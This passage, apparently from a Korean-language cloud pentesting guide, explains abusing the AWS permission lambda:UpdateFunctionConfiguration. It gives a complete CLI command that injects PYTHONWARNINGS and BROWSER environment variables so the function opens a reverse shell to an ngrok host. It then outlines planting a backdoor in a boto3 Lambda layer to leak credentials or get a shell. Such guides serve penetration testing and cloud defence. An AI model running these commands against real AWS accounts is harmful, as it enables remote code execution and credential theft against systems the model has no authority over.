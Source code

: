 ### `lambda:UpdateFunctionConfiguration`

#### env 변수를 통한 RCE

이 권한으로 환경 변수를 추가하여 Lambda가 임의의 코드를 실행하도록 할 수 있습니다. 예를 들어, 파이썬에서는 환경 변수 `PYTHONWARNING` 및 `BROWSER`를 악용하여 파이썬 프로세스가 임의의 명령을 실행하도록 할 수 있습니다:

{% code overflow="wrap" %}
```bash
aws --profile none-priv lambda update-function-configuration --function-name <func-name> --environment "Variables={PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=\"/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18755 0>&1' & #%s\"}"
```
{% endcode %}

다른 스크립팅 언어의 경우 사용할 수 있는 다른 환경 변수가 있습니다. 자세한 내용은 다음의 스크립팅 언어 하위 섹션을 확인하세요:

{% embed url="https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse" %}

#### Lambda Layers를 통한 RCE

[**Lambda Layers**](https://docs.aws.amazon.com/lambda/latest/dg/configuration-layers.html)는 **코드**를 람다 함수에 포함할 수 있게 해주지만 **별도로 저장**하므로 함수 코드는 작게 유지할 수 있고 **여러 함수가 코드를 공유**할 수 있습니다.

람다 내부에서 다음과 같은 함수를 사용하여 파이썬 코드가 로드되는 경로를 확인할 수 있습니다:
```python
import json
import sys

def lambda_handler(event, context):
print(json.dumps(sys.path, indent=2))
```
이곳들은 다음과 같습니다:

1. /var/task
2. /opt/python/lib/python3.7/site-packages
3. /opt/python
4. /var/runtime
5. /var/lang/lib/python37.zip
6. /var/lang/lib/python3.7
7. /var/lang/lib/python3.7/lib-dynload
8. /var/lang/lib/python3.7/site-packages
9. /opt/python/lib/python3.7/site-packages
10. /opt/python

예를 들어, 라이브러리 boto3는 `/var/runtime/boto3` (4번째 위치)에서 로드됩니다.

#### Exploitation

`lambda:UpdateFunctionConfiguration` 권한을 남용하여 **새 레이어를 추가**하는 것이 가능합니다. 임의의 코드를 실행하려면 이 레이어에 **람다가 가져올 라이브러리**가 포함되어야 합니다. 람다의 코드를 읽을 수 있다면 이를 쉽게 찾을 수 있으며, 람다가 **이미 레이어를 사용하고 있을 가능성**도 있다는 점에 유의하세요. 이 경우 **레이어를 다운로드**하고 **거기에 코드를 추가**할 수 있습니다.

예를 들어, 람다가 라이브러리 boto3를 사용하고 있다고 가정해 보겠습니다. 이는 라이브러리의 최신 버전으로 로컬 레이어를 생성합니다:
```bash
pip3 install -t ./lambda_layer boto3
```
You can open `./lambda_layer/boto3/__init__.py` and **전역 코드에 백도어 추가** (예: 자격 증명을 유출하거나 리버스 셸을 얻는 함수).
